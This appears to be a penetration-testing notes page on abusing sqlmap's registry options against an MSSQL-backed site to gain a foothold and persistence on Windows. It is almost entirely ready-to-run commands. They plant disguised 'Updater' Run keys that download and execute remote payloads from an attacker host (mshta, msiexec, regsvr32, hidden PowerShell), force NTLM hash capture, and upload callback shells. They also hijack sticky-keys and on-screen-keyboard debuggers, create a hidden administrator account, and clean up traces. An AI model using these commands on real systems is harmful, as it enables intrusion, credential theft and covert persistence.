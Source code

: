 # Windows Registry

Search Tag: #sqlmap #initial-foothold #persistence

## 01 - Create Registry Values

TODO: Provide  a scenario if it's not possible to reboot the windows machine. An attacker can use **Denial of Service (DoS)** attack vector to crash the machine then it reboots to get a callback shell.

## 1.1 - Conditions

TODO: Gather conditions to takeover of the machine in the MSSQL backend

1. The DBMS backend must be MSSQL

## 1.2 - Grab NTLM hashes

- Run [[Pentesting Phases/Initial Access/Sniffing and Spoofing/Passive/Responder|Responder]] to grab the NTLM hashes

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c dir \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c net view \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.3 - Execute callback shell in disk

- **Upload a callback shell in the windows temporary directory.**

```
$ sqlmap -u "<URL>" --file-write=/path/to/shell.exe --file-dest="C:\Windows\Temp\shell.exe"

$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="C:\Windows\Temp\shell.exe"
```

- **Then confirm the registry value is updated successfully.**

```
$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

- **Cleanup the registry value and confirm it's deleted.**

```
$ sqlmap -u "<URL>" --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.4 - Execute callback shell in memory (fileless)

### 1.4.1 - Host a webserver to stage the implant

- **Mshta**

```
$ sqlmap -u "<URL>" --reg-value="Updater" --reg-data="mshta.exe http://<IP>/shell.hta"
```

- **Msiexec**

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="msiexec /q /i http://<attacker_IP>/shell.msi"
```

- **Regsvr32**

```
$ sqlmap -u "<URL>"--reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="regsvr32 /s /n /u /i:http://<attacker_IP>/shell.sct scrobj.dll"
```

- **Powershell**

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="powershell.exe -nop -NonI -Nologo -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\'http://<IP>/shell.ps1\'))\""
```

### 1.4.2 - Directly execute the callback shell

- **Powershell**

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="conhost --headless powershell.exe -nop -NonI -Nologo -w hidden -e <base64_payload>"
```

- **Python**

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="python -c <payload>"
```

- **Cleanup the registry value and confirm it's deleted.**

```
$ sqlmap -u "<URL>" --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.5 - Living off the Land

### 1.5.1 - Remote Desktop Protocol via Stick Keys Command Prompt

- **We must first take note of the registry values to clear traces afterwards**

```
$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger"
```

- **Add a terminal prompt in the registry value.**

```
$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data "cmd.exe"

$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="powershell.exe"
```

- **Create user account (Optional). Refer to this [[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Persistence/Windows/Host Persistence/Create User|link]].**

```
$ sqlmap -u "<URL>" --reg-add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd /c net user webadmin Passw0rd123\! /add /y & net localgroup Administrators webadmin /add /y & net localgroup \"Remote Desktop Users\" webadmin /add /y"
```

- **Then confirm the modified changes.**

```
$ sqlmap -u "<URL>" --reg-read "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger"

$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

- **Cleanup the registry value and double check to confirm.**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie="<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" -p <parameter> --cookie="<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

### 1.5.2 - Remote Desktop Protocol via Accessibility On-Screen Keyboard Command Prompt

- **We must first take note of the registry values to clear traces afterwards**

```
$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger"
```

- **Add a terminal prompt in the registry value.**

```
$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data "cmd.exe"

$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="powershell.exe"
```

- **Then confirm the modified changes.**

```
$ sqlmap -u "<URL>" --reg-read "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value Debugger

$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

- **Cleanup the registry value and double check to confirm.**

```
$ sqlmap -u "<URL>" --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

---
## References

- [Pwning a shell via MSSQL DBMS](https://owasp.org/www-chapter-ghana/assets/slides/Pwning_a_shell_via_MSSQL_DBMS.pdf)

- [Executing OS Commands Through SQL Server](https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver)